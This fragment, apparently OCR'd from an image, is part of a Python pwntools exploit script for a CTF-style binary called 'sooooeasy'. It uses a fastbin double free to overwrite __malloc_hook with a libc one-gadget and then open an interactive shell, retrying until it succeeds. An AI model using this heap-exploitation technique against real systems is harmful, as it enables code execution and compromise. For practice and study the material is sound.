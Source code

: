 ```python
	one = libcbase + [0x45226,0x4527a,0xf0364,0xf1207][1]
	pr('libcbase',libcbase)
	pr('malloc_hook',malloc_hook)
	pr('one',one)
	delete(0)
	delete(2)
	delete(0)
	add(0x60,p64(malloc_hook-0x23))
	add(0x60)
	add(0x60)
	add(0x60,'a'*11+p64(one)+p64(libc_realloc+13))
	p.sendlineafter('choice : ','1')
	#gdb.attach(p,'b *'+str(one))
	p.interactive()
while True:
	try:
		global p
		p = process('./sooooeasy')
		pwn()
		break
		
	except:
		p.close()
		print 'trying...'
```


